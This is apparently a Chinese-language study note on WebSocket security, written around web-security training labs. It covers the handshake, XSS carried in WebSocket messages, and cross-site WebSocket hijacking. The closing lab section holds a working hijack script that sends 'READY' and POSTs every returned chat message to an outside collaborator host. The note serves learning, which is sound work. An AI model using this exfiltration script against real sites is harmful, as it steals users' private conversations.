






## WebSockets

WebSocket 通过HTTP端口80和443进行工作，并支持HTTP代理和中介，从而使其与HTTP协议兼容。 为了实现兼容性，WebSocket 握

手使用HTTP Upgrade 头从 HTTP 协议更改为 WebSocket 协议

WebSocket 使用`ws`或`wss`的统一资源标志符URI，其中`wss`表示使用了 TLS 的 WebSocket，如：

```
ws://example.com/wsapi
wss://secure.example.com/wsapi
```

**一个典型的 WebSocket 握手请求如下:**

握手请求：

```http
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

服务器响应：

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
```

- Connection 必须设置 Upgrade，表示客户端希望连接升级
- Upgrade 字段必须设置 WebSocket，表示希望升级到 WebSocket 协议

### WebSockets 信息

成功建立 WebSocket 链接后，客户端和服务端可以在任一方向异步发送消息

通过`JavaScript`代码，发送一条简单信息

```javascript
ws.send("Peter Wiener");
```

另外，WebSocket 消息可以包含任何内容或数据格式，将数据格式化为`JSON`格式

```javascript
ws.send(JSON.stringify({ name: "Peter Wiener" }));
```

### WebSocket 之 XSS 漏洞

在一个在线聊天的网页，通过 WebSocket 发送信息

用户输入聊天消息时，会向服务器发送如下 WebSocket 消息：

```
{"message":"Hello Carlos"}
```

消息内容通过 WebSockets 传输给另一个聊天用户，并在用户的浏览器中如下呈现：

```
<td>Hello Carlos</td>
```

在没有过滤情况下，构造一个 XSS 攻击

```
{"message":""} 
```

### 跨站 WebSocket 劫持

Cross-site WebSocket hijacking （CSWSH）

WebSocket 握手过程中的跨站请求伪造（CSRF）漏洞，当 WebSocket 握手请求完全依赖 HTTP cookies进行会话处理，且不含 CSRF 

token，就会存在这种漏洞

跨站 WebSocket 劫持攻击本质上是一个 WebSocket 握手过程中的 CSRF 漏洞，执行攻击的第一步是审查应用程序执行的 WebSocket 握

手，并确定它们是否受到 CSRF 保护

**利用过程：**

攻击者在自己的服务器创建一个恶意网页，通过该网页将受害者和漏洞网站建立起 WebSocket 连接，攻击者可以通过修改页面伪造用户

发送任意消息，并且可以获取响应信息，这与常规的 CSRF 不同，攻击者可以双向获取信息，一定程度上具用双向交互的能

## labs

### XSS

修改发送信息



成功执行标签



弹窗



### 跨站 WebSocket 劫持

握手包，发现只有cookie进行会话处理，符合漏洞利用条件（和常规 CSRF 漏洞相似，伪造受害者与服务器握手）



打开聊天界面，发送几条信息，刷新页面

客户端向服务端发送`READY`信息，服务端返回聊天信息



利用脚本，通过 HTTP 请求获取信息

```javascript
<script>
    var ws = new WebSocket('wss://0ade003c032b352e80563aef003500e5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://le32w4oioqf91c2ftwszv0p6wx2oqfe4.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

